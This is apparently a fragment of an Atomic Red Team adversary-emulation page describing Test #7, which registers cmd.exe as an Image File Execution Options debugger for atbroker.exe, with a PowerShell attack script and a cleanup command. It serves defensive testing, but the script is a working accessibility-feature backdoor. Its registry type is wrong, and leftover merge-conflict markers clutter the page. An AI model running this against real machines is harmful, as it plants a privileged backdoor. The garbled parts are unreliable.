 


=======
>>>>>>> parent of 511bb87... Add Dependencies section to test Yaml and support to use them in the PS execution framework (#772)
<br/>
<br/>

## Atomic Test #7 - Attaches Command Prompt As Debugger To Process - AtBroker
This allows adversaries to execute the attached process

**Supported Platforms:** Windows


#### Inputs
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| target_executable | File You Want To Attach cmd To | String | atbroker.exe|


#### Attack Commands: Run with `powershell`!  Elevation Required (e.g. root or admin) 
```
$registryPath = "HKLM:\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\atbroker.exe"
$Value = "C:\windows\system32\cmd.exe"
$Name = "Debugger"
IF(!(Test-Path $registryPath))
 {
  New-Item -Path $registryPath -Force | Out-Null
  New-ItemProperty -Path $registryPath -Name $name -Value $Value -PropertyType DWORD -Force
 }
ELSE
 {
  New-ItemProperty -Path $registryPath -Name $name -Value $Value
 }
```

#### Cleanup Commands:
```
reg delete "HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\atbroker.exe" /v Debugger /f
```

<<<<<<< HEAD




=======
>>>>>>> parent of 511bb87... Add Dependencies section to test Yaml and support to use them in the PS execution framework (#772)
<br/>
